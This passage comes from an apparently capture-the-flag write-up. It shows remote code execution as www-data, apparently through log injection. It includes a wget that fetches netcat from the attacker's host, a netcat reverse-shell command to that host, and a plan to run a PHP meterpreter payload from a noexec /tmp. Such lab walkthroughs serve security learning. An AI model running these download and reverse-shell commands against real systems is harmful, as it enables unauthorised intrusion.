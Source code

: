 ```python
        print m.group(1)
    else:
        print("No output")
```

I have RCE as `www-data`:
```
# python rce.py
> id
**
10.10.14.23 - - [14/Apr/2019:21:59:41 -0400] "GET / HTTP/1.1" 200 2 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Python and netcat are not installed on this box. I tried using perl to spawn a shell but I kept killing the box (bad code injected in the access log? so I tried downloading netcat and spawn a shell that way.
```
> wget http://10.10.14.23/nc -O /tmp/nc

> chmod 777 /tmp/nc

> ls -l /tmp/nc

10.10.14.23 - - [14/Apr/2019:22:08:26 -0400] "GET / HTTP/1.1" 200 2 "-" "-rwxrwxrwx 1 www-data www-data 442856 Apr 14 14:22 /tmp/nc

> /tmp/nc -e /bin/sh 10.10.14.23 80

[No output!]
```

I downloaded netcat on the box but I didn't get any callback when I try to execute it. When I looked at the filesystem mounts I saw that the temporary locations are all mounted as `noexec` so I can't run any binary that I upload there.

```
> mount
**
10.10.14.23 - - [14/Apr/2019:22:00:14 -0400] "GET / HTTP/1.1" 200 2 "-" "/dev/mapper/sda2_crypt on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,noexec)
[...]
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /boot type ext2 (rw,relatime,block_validity,barrier,user_xattr,acl)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
```

### First shell using Metasploit

I can't execute code but if I upload a PHP meterpreter payload into `/tmp` I can execute it since the `php` binary is in the main partition that is executable.
